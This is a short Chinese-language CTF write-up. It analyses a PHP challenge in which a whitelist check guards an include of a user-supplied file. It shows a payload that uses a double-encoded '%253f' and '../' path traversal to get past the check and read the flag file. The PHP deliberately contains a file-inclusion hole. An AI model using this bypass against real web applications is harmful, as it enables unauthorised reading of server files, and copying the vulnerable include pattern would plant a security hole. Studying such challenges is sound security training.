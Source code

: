 ```php
        && is_string($_REQUEST['file'])
        && ReadFile::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>CTF CHALLENGE";
    }  
?>
```

需要传入的file：非空且为字符串，并且ReadFile类的checkFile方法判断为真即可包含文件

那重点看这个ReadFile类的checkFile方法

1. `$page`未定义或非字符串则返回false
2. `$page` 匹配 `$whitelist` 中的某个值则返回true
3. `$_page`赋值为`$page`的0到第一个问号之间的字符串，若`$_page` 匹配 `$whitelist` 中的某个值则返回true
4. 对`$_page`url解码后赋值为：`$page`的0到第一个问号之间的字符串，若`$_page` 匹配 `$whitelist` 中的某个值则返回true

那么使其为true就很简单了

构造payload，目的是通过第三次验证触发true

source.php和hint.php都在$whitelist里，用于截断

%253f是问号二次url编码的结果，因为浏览器会进行一次url解码，所以要二次编码来触发第三次判断的url解码

```
http://8.130.27.133/web6/source.php?file=
source.php%253f/../../../../../../flag
或
hint.php%253f/../../../../../../flag
```

反正就是这样了hh

![](https://i.loli.net/2021/09/21/jmaKCcgL9PRVW7f.png)

